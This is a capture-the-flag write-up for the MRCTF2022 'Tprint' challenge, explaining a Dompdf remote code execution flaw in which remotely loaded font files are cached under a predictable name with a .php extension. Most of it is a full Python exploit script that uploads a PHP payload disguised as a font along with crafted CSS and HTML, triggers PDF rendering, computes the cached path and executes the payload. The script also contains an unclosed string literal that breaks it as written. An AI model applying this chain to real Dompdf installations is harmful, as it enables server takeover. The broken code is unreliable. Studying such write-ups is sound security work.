


## MRCTF2022 Tprint

## 环境启动

```
docker-compose up -d --build
```

### Exp

```
cd exp
python exp.py
```

## WriteUp

考点：Dompdf  Rce

tprint的灵感来自一个[1day](https://github.com/positive-security/dompdf-rce)

当时出题的时候网上分析还没那么多，结果比赛的时候已经有[师傅分析的很透彻了](https://ghostasky.github.io/2022/03/19/dompdf 0day(RCE)复现/)

主要就是利用dompdf在解析html文件时会默认加载远程css并且进一步缓存远程字体文件的问题。因为未对字体文件后缀进行过滤，导致可以直接缓存任意文件，并且缓存文件名是可以计算出来的。这就导致了一个间接的文件写漏洞。

盗一下github上的攻击示意图：



原攻击手法是通过xss来注入css，因为本题不出网，设置了一个文件上传点，通过上传html的方式来进行css注入。我们只需要把恶意字体文件/恶意css/恶意html文件上传上去然后打印我们的恶意文件就能同样触发这个攻击链。

Exp如下：

```
import requests
from hashlib import md5

url = "http://246abfb2-0f91-48ec-a88c-b2314709ed87.node1.mrctf.fun:81"

font_name = "eki"

def print2pdf(page):
    param= {
        "s":"Printer/print",
        "page":page
    }
    res = requests.get(f"{url}/public/index.php",params=param)
    return res

def upload(filename,raw):
    data = {
        "name":"avatar",
        "type":"image",
    }
    res = requests.post(f"{url}/public/index.php?s=admin/upload",data=data,files={"file":(filename,raw,"image/png")})
    return res.json()["result"]

exp_font = "./exp.php"

php_location = upload("exp.php",open(exp_font,"rb").read())

print(f"php_location=>{php_location}")

exp_css = f"""
@font-face{{
    font-family:'{font_name}';
    src:url('http://localhost:81{php_location}');
    font-weight:'normal';
    font-style:'normal';
}}

css_location = upload("exp.css",exp_css)

print(f"css_location=>{css_location}")


html = f"""
<link rel=stylesheet href='http://localhost:81{css_location}'><span style="font-family:{font_name};">5678</span>
"""

html_location = upload("exp.html",html)


payload = "/storage/"
print(f"html_location=>{html_location}")

p = html_location

print(p)

res  = print2pdf(p)

open("out.pdf","wb").write(res.content)

md5helper = md5()

md5helper.update(f"http://localhost:81{php_location}".encode())

remote_path = f"/vendor/dompdf/dompdf/lib/fonts/{font_name}-normal_{md5helper.hexdigest()}.php"

print(f"remote_path=>{remote_path}")

res = requests.get(url+remote_path)

print(res.text)
```

